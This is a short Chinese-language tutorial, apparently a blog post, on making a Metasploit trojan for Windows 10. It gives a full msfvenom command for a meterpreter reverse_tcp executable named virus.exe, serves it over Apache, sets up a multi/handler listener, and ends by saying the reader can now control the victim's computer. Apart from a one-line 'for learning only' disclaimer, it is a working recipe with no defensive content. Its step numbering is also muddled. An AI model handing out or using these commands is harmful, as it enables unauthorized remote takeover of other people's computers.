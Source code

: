 # msf渗透木马win10
### 此教程仅供学习!造成的损失与作者无关!
最近不知道树莓派放到哪去了,于是买了个固态硬盘装kali虚拟机,之前如果有看过我RPI装Kali的也不用慌,把第2步打开命令行改成连接树莓派就行<br/>

1. 把虚拟机的的连接方式改成桥接,但不要勾选复制物理连接[![H1sUXR.png](https://s4.ax1x.com/2022/02/08/H1sUXR.png)](https://imgtu.com/i/H1sUXR)<br/>
2. 打开控制台<br/>
3. 查看攻击方的IP[![H1rlJe.png](https://s4.ax1x.com/2022/02/08/H1rlJe.png)](https://imgtu.com/i/H1rlJe)<br/>
4. 生成木马,命令:msfvenom -p windows/meterpreter/reverse_tcp lhost=攻击方的IP lport=4444 -f exe -a x86 >virus.exe (记得加上sudo,如果是root就不用)[![H16YLR.png](https://s4.ax1x.com/2022/02/08/H16YLR.png)](https://imgtu.com/i/H16YLR)<br/>
5. 安装apache2,把木马移动到/var/www/html目录下,开启apache2服务[![H1cNcQ.png](https://s4.ax1x.com/2022/02/08/H1cNcQ.png)](https://imgtu.com/i/H1cNcQ)<br/>
6. 打开msf(命令msfconsole),加载模块use exploit/multi/handler[![H1WORf.md.png](https://s4.ax1x.com/2022/02/08/H1WORf.md.png)](https://imgtu.com/i/H1WORf)<br/>
7. 设置监听IP和监听端口,ip就是第三步获取的ip,端口就是4444(前提是生成木马时的端口是4444,但是提供的木马生成命令设置端口就是4444)[![H1f0Yt.png](https://s4.ax1x.com/2022/02/08/H1f0Yt.png)](https://imgtu.com/i/H1f0Yt)<br/>
8. 输入set payload windows/meterpreter/reverse_tcp<br/>
8. 输入exploit,开始监听[![H1oTeS.png](https://s4.ax1x.com/2022/02/08/H1oTeS.png)](https://imgtu.com/i/H1oTeS)<br/>
6. 在被攻击方运行木马,通常,它在{攻击方IP地址/生成病毒名称,如果没有重命名的话,应该叫virus.exe}<br/>
7. 这时,你拿到了权限,可以控制对方电脑啦~~~
